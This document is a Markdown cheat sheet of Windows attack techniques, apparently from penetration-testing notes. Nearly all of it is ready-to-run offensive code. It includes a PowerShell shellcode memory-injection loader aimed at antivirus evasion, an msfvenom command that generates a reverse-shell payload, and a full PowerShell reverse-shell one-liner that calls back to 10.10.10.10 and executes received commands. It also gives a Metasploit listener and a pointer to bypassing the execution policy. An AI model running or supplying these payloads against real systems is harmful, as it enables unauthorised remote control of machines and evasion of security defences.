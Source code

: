 # Microsoft Windows attacks

## Cmd

```
forfiles /P C:\Windows /S /M *.txt /c "cmd /c echo @PATH"
find /c /v "" file.txt
net user
net localgroup
```

## WebDAV

```
pip install wsgidav
mkdir mywebdav
.local/wsgidav --host=0.0.0.0 --auth=anonymous --port 80 --root ./mywebdav
```

## AV

### Powershell

Get help:

```
Get-Help somecommand
Get-Command -ParameterName ComputerName
Get-Command -name "*name*"
```

Find file:
```
Get-ChildItem -Path C:\ -Include *.extension -File -Recurse -ErrorAction SilentlyContinue
```

Base64: https://stackoverflow.com/questions/15414678/how-to-decode-a-base64-string
```
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("somebase64string"))
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("sometext"))
```

Memory injection
```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc =
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = someshellcode;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

### Shell code

```
msfvenom -p windows/shell_reverse_tcp LHOST=IpAtt LPORT=PortAtt -f powershell -v sc
```

### One-liner

- source: https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
- command:
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
- base64: https://github.com/darkoperator/powershell_scripts/blob/master/README
- execution policy (see ByPAss): https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.3

## Shellter

- link: https://www.shellterproject.com/

### Msf listener

```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST AttIP;set LPORT AttPort;run;"
```



